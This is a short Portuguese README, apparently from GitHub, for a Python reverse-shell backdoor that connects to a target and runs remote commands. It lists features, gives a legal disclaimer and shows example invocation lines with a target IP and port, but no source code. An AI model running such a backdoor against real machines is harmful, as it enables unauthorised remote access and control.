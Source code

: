 # backdoor-em-python

Um script em Python que estabelece uma conexão reversa com uma máquina alvo, permitindo a execução remota de comandos.

⚠️ Aviso

Este script é para fins educacionais e de pesquisa em segurança cibernética. Utilize-o apenas em ambientes controlados e com autorização explícita. O uso indevido pode violar leis locais.

📋 Requisitos

Python 3.x

📌 Funcionalidades

Estabelece uma conexão reversa com o alvo

Executa comandos remotamente

Permite navegação entre diretórios

🚀 Uso

Certifique-se de ter o Python instalado.

Exemplo de Uso:

python3 backdoor.py ip_alvo porta

python3 backdoor.py 192.168.1.10 4444
